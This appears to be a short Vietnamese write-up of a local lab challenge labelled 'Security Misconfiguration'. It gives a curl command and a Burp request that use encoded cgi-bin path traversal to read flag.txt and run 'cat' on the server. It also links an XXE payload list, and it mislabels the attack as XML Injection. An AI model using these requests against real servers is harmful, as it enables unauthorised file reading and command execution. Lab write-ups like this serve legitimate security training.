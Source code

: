 
# ⚙️ Security Misconfiguration

---

## Cài đặt môi trường

*Note: vẫn như cài đặt ở phần 01*

```
http://127.0.0.1:5005/
```

---

## Phân tích

- Trang web có 1 giao diện duy nhất

![ISD](images/SM1.png)

- Cờ nằm trong `flag.txt` (có thể thấy khi build docker)
- curl --data "echo;cat /flag.txt" 'http://localhost:6006/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt'

![ISD](images/MS2.png)

- Có thể khai thác **XML Injection**

---

## Khai thác

- Dùng **Burp Suite**

- GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt HTTP/1.1

![ISD](images/Ms3.png)

- Tham khảo payload tại:
  [https://github.com/payloadbox/xxe-injection-payload-list/blob/master/Intruder/xxe-injection-payload-list.txt.txt](https://github.com/payloadbox/xxe-injection-payload-list/blob/master/Intruder/xxe-injection-payload-list.txt.txt)
